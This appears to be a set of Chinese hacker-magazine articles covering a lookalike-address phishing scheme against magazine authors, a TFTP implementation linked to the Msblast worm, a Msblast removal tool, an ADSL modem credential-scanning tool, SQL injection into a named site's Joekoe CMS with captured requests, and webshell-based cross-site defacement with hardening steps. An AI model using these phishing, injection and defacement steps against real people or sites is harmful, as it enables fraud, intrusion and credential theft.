呵呵，我对钓鱼式攻击没什么兴趣。不过，一个偶然+本能的嗅觉，也造就了一次借用黑防约稿事件的垂钓攻击。首先声明，本文并不是鼓励大家利用这样的方法做不道德的事，只是希望给黑防编辑部以及所有黑防作者敲个警钟，也希望所有热爱网络安全的读者能伴随着黑防一起成长、进步。

话说前几天鲜橙加冰 GG（以下简称 GG）的 TM 头像狂闪，地球人都知道这是他催稿的信号。哎，没办法，忙了几天，终于把稿子赶了出来，于是赶紧打开 Foxmail，选中9月19号鲜 GG 发来的“11期黑防征稿”这封 Email，然后惯性地右键，选中回复邮件，如图2所示。相信大多数黑防作者都和我一样，都是直接对鲜 GG 发来的征稿启事邮件直接回复（谁吃饱了还一个字母一个字母敲邮件目的地址啊），但是有没有想过，这样做的直接后果也许是成为无辜的鱼儿等着被钓呢！

本来稿件发出去了，事情就算告一段落了。可是，突然间，一种莫名的冲动让我有了点想法：类似鲜 GG 这样的征稿启事肯定不是只针对我一个作者的，换句话说，需要群发，那么……

一闪之间，鼠标已经在“来自鲜 GG 的 mail 属性 -> 详细信息 -> 原始信息”。不看不知道，一看吓一跳，如图3所示。


图2


图3

中间被涂花的部分不好意思，为了不泄漏这些作者的 E-mail，应该就是鲜 GG 群发的所有黑防作者的 mail 地址。当时一个“邪恶的”火苗开始泛红，“钓鱼式攻击”的字眼开始在眼前跳跃。不过单有这些作者们的 E-mail 并不足以构成什么威胁……

就属于社会工程学的知识了，比如 i 和 l（L 的小写）可以改成 1（One）等等，反过来也成立。下一步，开始伪造邮件内容了。这个好办，先把鲜 GG 原来的邮件内容拷贝下来，粘贴到我的邮件正文里，如图4所示。


图4

图4中，我故意强调了投稿方式为 E-mail 方式，而且重贴了伪造的 E-mail 地址，主要是方便一些作者拷贝。“鱼钩”圈住的部分，都是我“钓鱼”用的；第一个 E-mail 地址就是刚申请的 verdureOrange@yahoo.com.cn，而下面第一个 QQ 号是我的一个备用号码，该号码所有的用户信息和资料全部修改成和鲜 GG 的一模一样……

记下刚才鲜 GG 的 E-mail 地址：verdureorange@yahoo.com.cn（解释一下 verdure 者，新鲜也；orange 橘子也，加起来就是鲜橙加冰了）。于是立马登录 mail.yahoo.com.cn，申请了一个 verdure0range@yahoo.com.cn。注意到没有，我把 orange 的 o 改成了 0（零）……


图5

然后不管你用 Web 方式还是 Outlook 或 Foxmail，都可以修改“发送人姓名和回复地址”，如图5、图6、图7所示。


图6

## 漏洞攻击防范 / EXPLOIT ATTACK DEFENCE


图7

当然，如果再细心点，还可以修改签名，如图8所示。这样，无论是 Foxmail 还是 Web 方式，显示都和钓 QQ 群发的主题以及内容和签名几乎毫无差异，而且这种因为没有带什么木马附件，内容不会被过滤，也不会被邮件服务器当作垃圾邮件处理，可以保证所有邮件能安全送到所有接收者邮箱。


图8

然后呢？没然后了，把刚开始得到的那些作者 E-mail 地址全部拷贝到邮箱抄送地址去，再然后呢？没再然后了，就是吃饱了没事的时候，等着收这些作者们发送来的文章吧。拿这些文章有什么用？我也不知道，下面也许是你的选择……测试结果：下午3点多弄完上面的“鱼钩”和“鱼饵”，到下午6点截止，我的 E-mail 里已有3封作者的回信……写这篇文章的主要目的，一是希望通过实例能告诉大家钓鱼式攻击的方法，二是希望黑防能对此做出一些相应的措施来预防并提醒投稿作者如何按照正确的方式才能无误地投送稿件。


- 适合读者：程序员，入侵爱好者
- 前置知识：TCP/IP 协议概念，C/C++ 基础

### 教你实现 TFTP 协议

文/图 Scuhkr/古开元  四川大学信息安全研究所

不论你是热衷于黑客技术的爱好者，还是从事编写网络应用程序的程序员，都需要掌握熟练的编程能力，以及具备扎实的 TCP/IP 协议基础……本文就结合 TCP/IP 协议中的 TFTP 协议来分析，并简单实现了 Windows 下 TFTP 的服务器和客户端。

TFTP（Trivial File Transfer Protocol）即简单文件传送协议，是 TCP/IP 协议族中的一个用于在客户机与服务器之间进行简单文件传输的协议，提供不复杂的、开销不大的文件传输服务。为了保持简单和短小，TFTP 使用 UDP 协议，且默认端口号为 69，不提供可靠的数据流传输服务，也不提供存取授权与认证机制……下面给出了 5 种 TFTP 报文格式，如图1所示。

#### 一、协议分析

TFTP（Trivial File Transfer Protocol）即简单文件传送协议，是 TCP/IP 协议族中的一个用来在客户机与服务器之间进行简单文件传输的协议，提供不复杂的、开销不大的文件传输服务。为了保持简单和短小，TFTP 使用 UDP 协议，且默认端口号为 69，它不提供可靠的数据流传输服务，也不提供存取授权与认证机制。


图1

结合图1，我们可以看到，TFTP 报文的头两个字节表示操作码。对于读请求（RRQ）和写请求（WRQ），文件名字段说明客户要读或写的位于服务器上的文件。这个字段以 0 字节作为结束。模式字段是一个 ASCII 码串 netascii 或 octet（大小写可任意组合），同样以 0 字节结束。netascii 表示数据是以成行的 ASCII 码字符串组成，以两个字节一回车字符后跟换行字符（称为 CR/LF）作为行结束符。octet 则将数据看作 8 位一组的字节流而不作任何解释。

每个数据分组包含一个块编号字段，它以后要在确认分组中使用。以读一个文件作为例子，TFTP 客户需要发送一个读请求说明要读的文件名和文件模式（mode）。如果这个文件能被这个客户读取，TFTP 服务器就返回一个块编号为 1 的数据分组。TFTP 客户又发送一个块编号为 1 的 ACK，TFTP 服务器随后发送块编号为 2 的数据。TFTP 客户发回块编号为 2 的 ACK，重复这个过程直到这个文件传送完。除了最后一个数据分组可含有不足 512 字节的数据，其他每个数据分组均含有 512 字节的数据。当 TFTP 客户收到一个不足 512 字节的数据分组，就知道它收到最后一个数据分组。

在写请求的情况下，TFTP 客户发送 WRQ 指明文件名和模式。如果该文件能被该客户写，TFTP 服务器就返回块编号为 0 的 ACK 包。该客户就将文件的头 512 字节以块编号为 1 发出，服务器则返回块编号为 1 的 ACK。

最后一种 TFTP 报文类型是差错报文，它的操作码为 5。它用于服务器不能处理读请求或写请求的情况。在文件传输过程中的读和写差错也会导致传送这种报文，接着停止传输。差错编号字段给出一个数字的差错码，跟着是一个 ASCII 表示的差错报文字段，可能包含额外的操作系统说明信息。

根据图1及上面的分析，我们可以得到以下定义：

```c
#define TFTP_RRQ   01   // 读请求
#define TFTP_WRQ   02   // 写请求
#define TFTP_DATA  03   // 数据包
#define TFTP_ACK   04   // 确认包
#define TFTP_ERROR 05   // 错误代码
```

头文件结构也能很容易得到：

```c
typedef struct tftphdr {
    USHORT tu_opcode;   // 操作码
    union {
        USHORT tu_block; // 块号
        USHORT tu_code;  // 错误码
        char   tu_stuff[1]; // 请求包填充物
    } th_u;
    char th_data[1];    // 数据或错误字符串
} TFTP_HDR, *PTFTP_HDR;
```

#### TFTP 服务器的实现

不知道大家对两年前的冲击波病毒 Msblast.exe 是否还有印象，该病毒通过 RPC 远程溢出漏洞溢出目标主机后，会绑定目标主机的 4444 端口，然后利用 Windows 系统自带的 ftp 客户端程序发送下载消息，目标主机通过 TFTP 下载病毒再运行病毒，反复循环导致更多的计算机受到感染。

因为 Windows 系统并没有默认的 TFTP 服务端程序，所以此时的关键就在于 Msblast.exe 病毒本身就是个 TFTP 服务器。至于 TFTP 服务器的实现，以前 ww0830 在黑防介绍过。为了满足大多数读者的要求及关系到本文的完整性，我这里也给出具体实现。注意，本 TFTP 服务端只实现了供客户端程序下载的功能，更多功能读者可以自己完善。

下面给出 TFTP 实现核心代码及详细注释。

> 以下所有代码均在 Windows XP SP1 + VC6.0 环境下编译通过，因为主要理解思路，省略了错误处理等步骤，完整源代码见光盘。

初始化 Winsock 库，注意要加上 ws2_32.lib 库文件。

```c
WSADATA WSAData;
WSAStartup(MAKEWORD(2, 2), &WSAData);
```

创建套接字。

```c
SOCKET sock = INVALID_SOCKET;
sock = socket(AF_INET, SOCK_DGRAM, 0); // UDP
```

初始化本地主机地址信息。

```c
struct sockaddr_in ServerAddr;
ServerAddr.sin_family = AF_INET;
ServerAddr.sin_addr.s_addr = inet_addr(MyIp);
ServerAddr.sin_port = htons(69); // TFTP默认端口
```

绑定套接字。

```c
bind(sock, (struct sockaddr*)&ServerAddr, sizeof(struct sockaddr_in));
```

初始化远程地址信息。

```c
struct sockaddr_in Client;
Client.sin_family = AF_INET;
Client.sin_port = htons(INADDR_ANY);
Client.sin_addr.s_addr = inet_addr(RemoteIp);
```

定义 TFTP 首部缓冲区。

```c
TFTP_HDR RecvBuff;   // 接收的数据缓冲区
TFTP_HDR LocalBuff;  // 本地数据缓冲区
```

接收数据，定义数据块大小为 512 字节。

```c
int alen = sizeof(Client);
recvfrom(sock, (char*)&RecvBuff, 512, 0, (struct sockaddr*)&Client, &alen);
```

获得客户端的请求操作码。

```c
LocalBuff.tu_opcode = ntohs(RecvBuff.tu_opcode);
```

打开本地文件。

```c
fp = fopen("abc.txt", "rb"); // 假设abc.txt为服务器文件
```

读本地文件，填充 TFTP 首部。

```c
fread(FileBuff, sizeof(char), 512, fp);
SendBuff.tu_opcode = htons(3);        // 操作码3=data
SendBuff.th_u.tu_block = htons(time); // 块号
memcpy(&(SendBuff.th_data), FileBuff, t); // 数据
```

发送文件给客户机（接收文件或数据类似）。

```c
sendto(sock, (char *)&SendBuff, i+4, MSG_DONTROUTE,
       (struct sockaddr *)&Client, sizeof(Client));
```

整个简单的 TFTP 服务器这样就完成了……程序最开始有个随机扫描的代码：

```c
WSAStartup(MAKEWORD(2, 2), &WSAData);
SOCKADDR_IN addr;
sock = socket(AF_INET, SOCK_STREAM, 0);
addr.sin_family = AF_INET;
addr.sin_port = htons(80);
addr.sin_addr.s_addr = inet_addr(RemoteIp);
if(connect(sock,(struct sockaddr *)&addr,sizeof(addr))<0){
    closesocket(sock);
    WSACleanup();
    return;
}
getsockname(sock,(struct sockaddr *)&hostname,&namelen);
source = inet_ntoa(hostname.sin_addr);
```

这一段代码的作用是循环连接网段内存活主机的 80 端口……导致蠕虫成级数性的扩散。

#### TFTP 客户端的实现

通常情况下，Windows 2000 以上操作系统都可以使用系统自带的 TFTP 客户端程序……下面我们就来分析一下 TFTP 的客户端实现。

| 2 bytes | string | 1 byte | string | 1 byte |
|---|---|---|---|---|
| Opcode | Filename | 0 | Mode | 0 |

于是，定义一个 `makereq()` 函数来填充请求字段。

```c
int makereq(char type,int mode,char *filename,char *buffer,int size){
    int pos = 0;
    ...
}
```

```c
int i = 0;
char s[32] = "";
if(mode==TFTP_NETASCII)
    strcpy(s,"netascii");
else
    strcpy(s,"octet");
...
buffer[pos] = type;   // Opcode = 01(RRQ) or 02(WRQ)
...
return pos;
```

下面为 ACK 包格式及填充字段函数 `makeack()`：

| 2 bytes | 2 bytes |
|---|---|
| Opcode | Block # |

```c
int makeack(unsigned short num,char *buffer,int size){
    int pos = 0;
    buffer[pos] = 0;
    pos++;
    buffer[pos] = TFTP_ACK;   // Opcode = 04
    pos++;
    buffer[pos] = (char)(num>>8);
    pos++;
    buffer[pos] = (char)num;
    pos++;
    return pos;
}
```

同理，DATA 包格式及填充函数 `makedata()` 如下：

| 2 bytes | 2 bytes | n bytes |
|---|---|---|
| Opcode | Block # | Data |

```c
int makedata(int num,char *data,int datasize,char *buffer,int bufsize){
    int pos = 0;
    buffer[pos] = 0;
    pos++;
    buffer[pos] = TFTP_DATA;  // Opcode = 03
    pos++;
    buffer[pos] = (char)(num>>8);
    pos++;
    buffer[pos] = (char)num;
    pos++;
    memcpy(&buffer[pos],data,datasize);
    pos = pos + datasize;
    return pos;
}
```

实现下载文件，cmd[][256] 为自定义的参数数据结构，pcount 为参数个数（详细代码请见光盘）。代码的注释很清楚，其实结合文章开始的理论及图，再实现就很简单了。至于上传（put）文件和下载类似，由于篇幅的原因，大家可以参考源代码。

#### 实现效果

首先，tftpServer.exe 为我们第2部分介绍实现的 TFTP 服务端程序，在该程序的同级目录下放一个名为“abc.txt”的文件，运行 tftpd.exe，然后运行第3部分介绍的 TFTP 客户端程序 tftpClient.exe，并输入命令：

```c
#get abc.txt
```

实验如图5、图6所示。


图5


图6

#### 总结

对于学习网络知识也好，学习黑客技术也罢，对于 TCP/IP 协议的掌握是重中之重。本文讨论虽然只是简单讨论 TFTP 协议的相关理论及实现，但稍微复杂一点的 FTP 协议、POP3 协议、SNMP 协议也都可以通过类似的分析来实现。本人水平有限，本文给出的都是思路，实现都简单得不能再简单。如有不对之处，请大家给予批评指正。

> （文中涉及程序或代码已经收录到配套光盘栏目中，按文章名查找即可）

- 适合读者：程序员，系统爱好者
- 前置知识：C/C++

### 简单打造蠕虫病毒专杀工具


网络上经常充斥着 N 多公司的专杀工具，如冲击波、震荡波专杀工具等，最常见的就是大名鼎鼎的毒霸和瑞星专杀工具了。大伙用了都说好，可是你有没有想过他们是怎么实现的呢？今天我们就来学习一下如何打造一个简单的蠕虫病毒专杀工具吧！其实，相信上网超过1年的人，都有过这样的杀毒经验。

- 1. 发现机器比往常慢了，“Ctrl+Alt+Del”调出任务管理器，找到可疑的病毒程序。
- 2. 上 Google，查询可疑病毒程序的相关资料。
- 3. 如果发现真是病毒，有专杀工具则下载专杀；无专杀工具则手工查杀。

而一般病毒的手工查杀步骤如下：

- 1. “Ctrl+Alt+Del”再次调出任务管理器，强行关闭病毒程序。
- 2. 根据资料从注册表删除病毒相关的自启动项和关联项。
- 3. 根据资料查找磁盘目录（一般为系统目录），删除病毒程序文件。
- 4. Windows Me 或 Windows XP 关闭系统还原功能。
- 5. 重启机器。

其实，蠕虫病毒的专杀工具也是按照手动查杀的步骤，一步一步通过程序来实现的（本文略去了关闭系统还原的步骤），下面，我们就拿一年前风靡全球的 MsBlast.exe（本文以 MsBlast.A 为例，其他病毒变体类似）蠕虫病毒来做实例分析，并实现自己的专杀工具。根据上面所说的，我们分而治之，逐个击破。

### 第一步 终止蠕虫病毒程序

我定义了一个 KillBlastProcess() 函数，它的职能跟我们终止一般程序过程一样。黑防上几乎每期必讲，就是查找蠕虫病毒进程，提升自身权限，然后终止蠕虫病毒程序。这里涉及到的知识点如图。

- ① 查找蠕虫病毒进程 MsBlast.exe。查找进程的方法有不下4种，这里用的是 Win32 SDK 的 Tool Help 函数集中的 API 函数来实现查找。
- ② 提升程序自身权限。这一步并不是必须的，有些病毒简单地调用 TerminateProcess() 就可以终止了，但是为了以防万一和通用性，提升自身权限就很有必要了。

重要的代码段如下：

```c
// 获得系统内所有进程的快照
hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

// 记得首先必须给结构PROCESSENTRY32的大小赋值，否则可能会不正确
pe32.dwSize = sizeof(PROCESSENTRY32);
if (Process32First(hProcessSnap, &pe32)) // 枚举第一个进程
{
    do { // 循环枚举所有进程
        if (strnicmp(pe32.szExeFile, "msblast.exe", 11) == 0)
        {
            printf("Located MS Blast Process ...\n");
        }
    } while (Process32Next(hProcessSnap, &pe32));
}
```

```c
... th32ProcessID); // 打印进程ID
if (!EnableDebugPrivilege()) { // 提升权限
    printf("EnableDebugPrivilege() failed\n");
    bRet = FALSE;
}

bFoundProcess = TRUE; // 标志着找到
hBlastProcess = OpenProcess(PROCESS_ALL_ACCESS, TRUE, pe32.th32ProcessID); // 获得 MsBlast.exe 进程句柄
if (hBlastProcess == NULL) {
    printf("Could not open MS Blast Process...\n");
    bRet = FALSE;
} else {
    if (!TerminateProcess(hBlastProcess, 0)) { // 终止
        printf("Could not terminate MS Blast Process...\n");
        bRet = FALSE;
    } else {
        printf("MS Blast Process Has been Terminated...\n");
        bRet = TRUE;
    }
    CloseHandle(hBlastProcess);
}
...
while (Process32Next(hProcessSnap, &pe32));
if (bFoundProcess) {
    bRet = TRUE;
} else {
    printf("MS Blast Process Was Not Running...\n");
    bRet = FALSE;
}
```

提升权限的函数实现如下：

```c
BOOL EnableDebugPrivilege()
{
    HANDLE hToken = NULL;
    LUID luid;
    TOKEN_PRIVILEGES tkp; // 令牌权限结构

    if (!OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY | TOKEN_ADJUST_PRIVILEGES, &hToken)) {
        printf("OpenProcessToken failed\n");
        return FALSE;
    }

    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &luid)) { // 查询 DEBUG 权限值
        printf("LookupPrivilegeValue failed\n");
        return FALSE;
    }

    tkp.PrivilegeCount = 1;
    tkp.Privileges[0].Luid = luid;
    tkp.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED; // 权限属性使能

    if (!AdjustTokenPrivileges(hToken, FALSE, &tkp, sizeof(tkp), NULL, NULL)) {
        printf("AdjustTokenPrivileges() failed %d\n", GetLastError());
        return FALSE;
    }

    CloseHandle(hToken); // 清理
    return TRUE;
}
```

## 第二步删除相关的注册表项

对于 MsBlast.exe 蠕虫病毒，只需要删除注册表 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 里的 `windows auto update` 键就可以了。具体实现是很简单的注册表操作，代码如下：

```c
BOOL KillBlastReg()
{
    printf("\nAttempting to Clean Registry...\n");
    // 打开注册表键
    if (RegOpenKeyEx(HKEY_LOCAL_MACHINE,
        "Software\\Microsoft\\Windows\\CurrentVersion\\Run",
        0, KEY_ALL_ACCESS, &hLocKey) != ERROR_SUCCESS) {
        printf("Unable to Load Registry Key...\n");
        return FALSE;
    } else {
        printf("Registry Key has been Successfully Loaded...\n");
    }

    // 删除操作
    if (RegDeleteValue(hLocKey, "windows auto update") != ERROR_SUCCESS) {
        printf("Unable to Delete Registry Value...It Might Not Exist...\n");
        return FALSE;
    }
    return TRUE;
}
```

这里要说的是，对于现在 Internet 上流行的很多蠕虫病毒，它们在注册表里做的手脚很多，很可能在很多注册表项里都安装了后门键值，这个时候大家在查找的时候就要仔细，不要轻易漏过一项，否则导致的后果很可能是蠕虫病毒重启后再次起死回生。

## 第三步删除蠕虫病毒文件

对 Msblast.exe 来说，病毒体文件是放在系统盘的 Windows 目录，假如你是系统盘为 C 盘，则 Windows 2000 下的就是 `C:\winnt` 目录，Windows XP 就是 `C:\windows` 目录。实现代码如下：

```c
BOOL KillFile()
{
    printf("\nAttempting to Remove msblast.exe...\n");
    // 通过环境变量获得病毒体全路径
    GetEnvironmentVariable("SYSTEMROOT", chrMsBlast, MAX_PATH);
    strcat(chrMsBlast, "\\msblast.exe", 12);

    // 删除操作
    if (DeleteFile(chrMsBlast) == 0) {
        return FALSE;
    }

    printf("Ms Blast.A.exe has been deleted successfully\n");
    return TRUE;
}
```

除了通过环境变量获得病毒体路径外，还可以用 `GetWindowsDirectory()` 或 `GetSystemDirectory()` 这两个 API 分别查找 Windows 目录和 System32 目录。更一般的是，如果要在整个磁盘查找，就需要更复杂的 `FindFirstFile()` 和 `FindNextFile()` 这两个函数对来遍历了。有兴趣的读者可以自己实现。

## 第四步重启机器

这步的实现我在附件给出的源代码没有加入。但读者自己可以加入实现部分，这一步是很重要的。要知道，计算机病毒名字的来由就是从现实生活中的病毒细菌生命力强和破坏力大继承而来的，重启机器可以防止蠕虫病毒潜在的一些机关再次引发病毒体死而复活的可能。用用微软老大公开发布的 AntiSpy 吧，看看人家是怎么做的。重启的实现很简单。

首先，也要提升权限，可以定义一个 `EnableShutDownPrivilege()` 函数，实现和上面基本一样。唯一不同的是下面这一句表达。

```c
LookupPrivilegeValue(NULL, SE_SHUTDOWN_NAME, &luid)
```

获得的是 `SE_SHUTDOWN_NAME` 关机权限。最后，调用：

```c
ExitWindowsEx(EWX_REBOOT | EWX_FORCE, 0);
```

强制重启。

以上代码（源文件参看附件 `msblast_kill.cpp`）在 Windows XP SP1 + VC6.0 环境下编译通过，测试运行结果，如图1所示。


#### 后记

一个简单的冲击波蠕虫病毒专杀工具这样就诞生了。是不是很简单呢！不过，你应该始终相信一点，简单的实现只能做简单的查杀；对于一些自身保护措施做得很到位的蠕虫病毒，比如使用了挂钩 Hook 技术，或使用了远程线程 DLL 注入技术的蠕虫病毒，我们进行查杀就相对复杂多了，而且往往会很伤脑筋。但另一点你也应该始终相信，在网络攻与防的较量中，没有任何技术是绝对不可攻破的，正是这种攻与防的不断较量，引发了黑客技术的不断提升和飞跃。衷心希望广大读者能伴随着黑防一起不断成长！

- 适合读者：网民，入侵爱好者
- 前置知识：无

## 笨猫，你完蛋了！——ADSL终结者

文/图：东志鹏（lucky_bird）

大家好！很荣幸能再和大家见面。可以说国内的 ADSL“猫”做路由本身不安全就算了，呆得连密码都不会修改的人却是大大地有啊！前几年的病毒事件让我们懂得要给电脑装杀毒软件、要常给系统打补丁。那么，我们使用的 ADSL 猫要什么时候懂得把默认口令改掉，并做好相应防范措施？我希望我下面介绍的工具，能让国人重视起 ADSL 猫的基本安全！

大家还记得当初入侵 ADSL 刷 QB 的方法吗？首先用 IP 数据库查询系统找到某城市的 ADSL 的 IP 段，再逐个入侵。如今有一把“屠龙宝刀”可以一步到位！就是“ADSL 密码终结者”！

大家可以在光盘里找到这个工具，不过记得安装之前把杀毒软件关掉。第一步是找 IP 段，在“查询字段”里写上要查的省份或城市，点击查询得到一片地址段，如图1所示。把 IP 段添加到列表，在“扫描选项”卡里点击开始，如图2所示。


左下角那里就是扫描 ADSL 猫的记录过程；一旦入侵成功，会在右下角显示出来，连上网账号和密码都暴出来了，如图3所示。


唉，这个就是国内的 ADSL 猫的安全现状。希望大家不要拿这个工具去为自己谋取金钱利益，否则将会受法律制裁。建议大家检查小区的 ADSL 猫安全情况，改掉默认用户名和密码（如 User/pass），并提高权限设置。

#### 脚本攻击防范

脚本小子：葛军的灰鸽子是非常出名的一款优秀的国产黑软，各技术层次的朋友都喜欢使用它来控制目标。但我们说安全是无处不在的，所以即使是灰鸽子的服务器，同样也是有可能存在问题的。本文正好是对灰鸽子站点进行的一次友情测试，而问题出在服务器上的乔客（Joekoe）系统。本文结合如何寻找 ASP 程序漏洞，提供最新漏洞和安全信息。

- 适合读者：入侵爱好者、网管
- 前置知识：基本 ASP 代码阅读能力、SQL 注入基本方法

## 不给后门留后患 —— 灰鸽子官方主页


很多朋友都想自己发现 ASP 程序漏洞，当拿到一套源码，不要急于直接找漏洞，而是先部署调试并观察提交变量和返回信息。本文以灰鸽子站点为目标进行分析与测试。

> **脚本小子：** 使用 `Trim()` 后再拼接 SQL 依然不安全，攻击者可用 ASCII 码 9（制表符）或 `/**/` 代替空格进行注入。

#### 显式变量的注入判断

通过论坛注册和发帖流程观察显式变量，在提交值后追加 `'` 测试报错。文中在“颜色”输入框尝试 `111111` 后触发 SQL 错误，定位到可能注入点。

> Microsoft OLE DB Provider for SQL Server 错误 '80040e14'  
> 第 1 行：'111111' 附近有语法错误。  
> /include/jk_class.asp，行 14

该处可能存在注入点，但因输入长度限制，利用价值有限。

#### 隐式变量的注入判断

隐式变量包括 Cookie 与 `type="hidden"` 输入项，建议在源码中查找。通过跟踪 `Request` 相关变量进入 SQL 语句的位置，并检查是否做了过滤（如 `isnumeric`、`int()`、`Trim()`、`Replace()`）。

我在 `Login.asp` 中发现 `Login_chk()` 函数，把它 Copy 了过来。

```vb
sub login_chk()
    dim username,password,gname,found_err,id,power,abate,hidden,faco,old_url
    old_url=var_null(request.querystring("old_url"))
    if symbol_name(login_username)=true then
        username=login_username
    else
        username=ltrim(request.form("username"))
    end if
    ...
    if symbol_name(username)=false then
        found_err=found_err&"请输入的用户名为空或不符合相关规则"
    end if
    if symbol_ok(password)=false then
        found_err=found_err&"您输入的登录密码为空或不符合相关规则"
    end if
    ...
    sql="update user_data set last_time='"&joekoe_cms.now_time&"' where username='"&username&"'"
    call joekoe_cms.exec(sql,0)
    ...
    gname=request.cookies(joekoe_cms.web_cookies)("guest_name")
    if var_null(gname)<>"" then
        call joekoe_cms.exec("delete from user_login where username='"&gname&"'",0)
    end if
end sub
...
****************************************
......
```

上面做了注释，下面我们来找 `var_null()` 函数到底是干什么的。在 `include` 文件夹中我们很容易找到它。

```vb
function var_null(ub)
    var_null=trim(ub)
    if var_null="" or isnull(var_null) then var_null=""
end function
```

这个函数只是判断参数 `ub` 也就是上文的 `gname` 是否为空值，并没有对 `Cookies(joekoe_cms.web_cookies)("guest_name")` 这个变量进行过滤。这样注入点我们就找到了，下面就要验证我们的判断了。

#### 验证注入点 / 实际入侵

到论坛用申请的账号登录，同时用 WSockExpert 抓包，我们得到如下的数据包：

```http
POST /login.asp?action=login_chk&old_url=... HTTP/1.1
Accept: image/gif, image/x-xbitmap, ...
Referer: http://www.huigezi.net/login.asp?...
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: www.huigezi.net
Content-Length: 39
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: aspframe...; ASPSESSIONID...;
username=llikz&password=11111!&x=31&y=7
```

仔细看会发现提交的 `guest_name` 值是 `%D3%CE%BF%CD285799304`，很明显是经过编码后的值。我们将这个值先改成 `%27`（即解码后的 `'`），同时修改 `Content-Length` 的值为 27，然后用 NC 提交数据包，看返回了什么：

```http
HTTP/1.1 100 Continue
Server: Microsoft-IIS/5.0
Date: Tue, 05 Oct 2004 02:58:52 GMT
HTTP/1.1 500 Internal Server Error
Server: Microsoft-IIS/5.0
```

```http
Date: Tue, 05 Oct 2004 02:58:53 GMT
Content-Length: 620
Content-Type: text/html
Set-Cookie: aspframe...; path=/
Set-Cookie: ASPSESSIONID...; path=/
Cache-control: private
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<title>灰鸽子工作室 -- 用户登录</title>
<link type=text/css href='skin/aspframe_skin_1.css' rel=stylesheet>
<script language=javascript src='style/aspframe_config.js'></script>
<p>Microsoft OLE DB Provider for SQL Server</p>
错误 '80040e14'
字符串 "' 之前有未闭合的引号。
/include/jk_class.asp, 行 16
```

从返回的代码能很容易判断出我们找到的注入点是可以注入的，后面的方法就和我们平时注入其他站点一样了，这里也就不再啰嗦。

前面我们发现的主题加色的那个漏洞其实也是可以利用的，虽然只能填入 6 个字符，但构造 SQL 语句显然不是很困难的事情，而且我们不在 `Forum_write.asp` 中利用它，`Forum_edit.asp` 中我们还发现了一点小小的惊喜：

```vb
fir_tcolor=trim(request.form("tcolor"))
if len(fir_tcolor)<>6 then fir_tcolor=""
    fir_tbb=0
    if trim(request.form("tbb"))="yes" then fir_tbb=1
    nsql=nsql&"tcolor='"&fir_tcolor&"',tbb='"&fir_tbb&"',"
end if
nsql=nsql&"istop='"&nistop&"',isgood='"&nisgood&"',"
islock='"&nislock&"' where id='"&viewid
call joekoe_cms.exec(nsql,0)
```

显然我们可以在这里利用，也就是在编辑帖子的时候利用这个漏洞注入！我发现 Joekoe CMS 1.0 Free SP2 以下版本都存在这个注入点，且网上很多黑客站点都使用这个程序。希望使用这套程序的朋友注意这个危险的地方，及时修补这个漏洞。只要对我们自己的程序，或者是从网上下载的别人程序都经过再三的判断后再使用，别人要黑咱们的网站也就不是件容易的事情了！

## 脚本攻防 / SCRIPT ATTACK DEFENCE

**脚本小子：** 最近国内好多黑客站接连被黑，很多都是通过跨站入侵改的主页，包括20NT也惨遭毒手……是时候和大家一起讨论一下关于这个方法的攻防问题了。

- 适合读者：入侵爱好者、站长
- 前置知识：基本注入技巧

## 模拟入侵20NT计算机网络安全小组

文/图 CNT.20NT 依冰（still）


跨站入侵是因为 IIS 的虚拟目录没有配置好安全权限，导致只要入侵者攻破空间服务器里的任意一个 IIS 虚拟空间，上传 ASP 木马就可以更改其他虚拟目录里的文件……这类跨站入侵本质上是权限配置不当造成的。


图1

想找这台服务器上的其他站点，可以登录 `http://www.webhosting.info/`，在 IE 里输入该站并在 Search 中输入服务器 IP，点击 GO 即可查到有多少国际域名指向这台服务器（如图2所示）。

### 我不入地狱谁入地狱——用我的网站测试跨站入侵

这里我用自己的空间服务器做测试……现在要改的主页地址是 `http://yibing.3322.org`，打开后只有一个静态 HTML 页面（如图1）。想改其主页只需得到 FTP 用户和密码，或在同服虚拟机中寻找 ASP 程序注入点，上传 WebShell，再通过跨站改主页。


图2

如果不想记这么长的网址，也可以用站点查询工具（本质也是通过 `webhosting.info` 查询），用起来更方便些（如图3）。随后可逐个打开这些站点，寻找存在 ASP 注入漏洞的目标。


打 SP2，可能是刚刚上传的，因为没有开什么版块。就拿它开刀吧，用动网上传漏洞的利用程序上传一个 ASP 后门，利用方法很简单，《黑防》以前也有过相关文章，我在这里就不多说了。

现在，有了一个 WebShell，所有的分区都进不去，看来都加了权限，但是 iisweb 目录可以浏览（如图4所示）。


里面有几十个目录，一眼就看到了。现在我们就来改 yibing 这个目录里的首页，点击进入 yibing 目录，然后点右边那个 index.htm 的“edit”就可以编辑主页了（如图5所示）。


把要改的数据写在里面，然后点击“保存”按钮，再刷新一下主页面看看，是不是被改成刚刚填写的内容了？

> 普渡众生方能成佛

### 教你防范跨站入侵

现在我来给大家讲讲如何防范跨站入侵。有两种方法：第一是把 iisweb 这个目录的 Internet 来宾账户删掉，只给虚拟目录加上 Internet 来宾账户权限，意思是让入侵者浏览不到 iisweb 目录，这样他就找不到要攻击的虚拟目录了……第二种方法是给各个虚拟目录加上特定的用户，也就是说有多少个虚拟空间就开多少个系统用户，这样就限制了跨站入侵，因为入侵者只能在自己攻破的那个虚拟目录里活动，跑不到别的虚拟目录里。

好了，根据上面的思路，我就来实际做一下吧。先使用第一种方法来实现。打开 H 盘，选择 iisweb 目录，点击鼠标右键，选择“属性”，在“属性”里点击“安全”标签，选择 Internet 来宾账户（如图6所示）。然后删除来宾账户，再进入 iisweb 目录，把里面的所有虚拟目录都加上“Internet 来宾账户”权限，在下面的读取和写入权限上打钩……（如图7所示），这样就搞定了。


